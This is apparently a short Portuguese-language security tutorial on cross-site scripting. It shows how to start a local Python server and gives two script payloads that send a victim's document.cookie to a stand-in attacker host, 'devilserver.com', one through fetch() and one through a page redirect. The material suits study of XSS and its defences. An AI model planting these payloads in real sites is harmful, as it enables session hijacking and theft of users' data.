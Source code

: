 Dependendo de como a aplicação for construída, ataques de XSS podem ser capazes de fazer requisições em nome de outro usuário contendo dados sensíveis. Costuma depender de quais dados o ``java script`` terá acesso.

Podemos fazer uma requisição com com informações do usuário, para o nosso servidor.

Primeiro criamos um servidor na nossa máquina. Nesse caso na porta 3000.
```sh
python3 -m SimpleHTTPServer 3000
```

Já na nossa payload, devemos colocar qual a função que queremos que JavaScript execute no computador das vítimas.

Pomos fazer uma requisição enviando o cookie de acesso para o nosso servidor python.
```html
<script>
fetch("http://devilserver.com:3000/?cookie="+document.cookie)
</script>
```

Lembrando que podemos informar qualquer informação que o JavaScript tenha acesso.

Caso o navegador do usuário não tenha suporte ao `fetch` podemos usar do redirecionamento para o site que queremos, que seria o mesmo que forçar a vítima a fazer um `GET`.

```html
<script>
	document.location = "http://devilserver.com:3000/?cookie="+document.cookie
</script>
```